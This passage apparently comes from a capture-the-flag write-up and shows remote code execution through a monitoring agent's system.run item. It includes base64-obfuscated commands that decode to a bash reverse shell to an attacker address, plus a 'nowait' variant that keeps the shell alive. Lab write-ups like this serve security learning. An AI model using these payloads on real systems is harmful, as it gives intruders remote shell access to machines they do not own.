 ```
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC4xNjYvOTg5OCAgMD4mMSAgCg
```

and the RCE parameter was:

```
system.run[echo  YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDMgMD4mMSAgCg | base64 -d | bash]
```

set up a listener, click on test then get value:

<figure><img src="../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

we get some type of timeout&#x20;

while looking through the documentation about how I could stabilize the shell or make a command that would create a new shell, we saw how the command system.run really works:

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

So if we have a timeout after waiting for the end of the execution, let's see with the `nowait` parameter

```
system.run[echo  YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC4xNjYvOTg5OCAgMD4mMSAgCg  | base64 -d | bash, nowait]
```
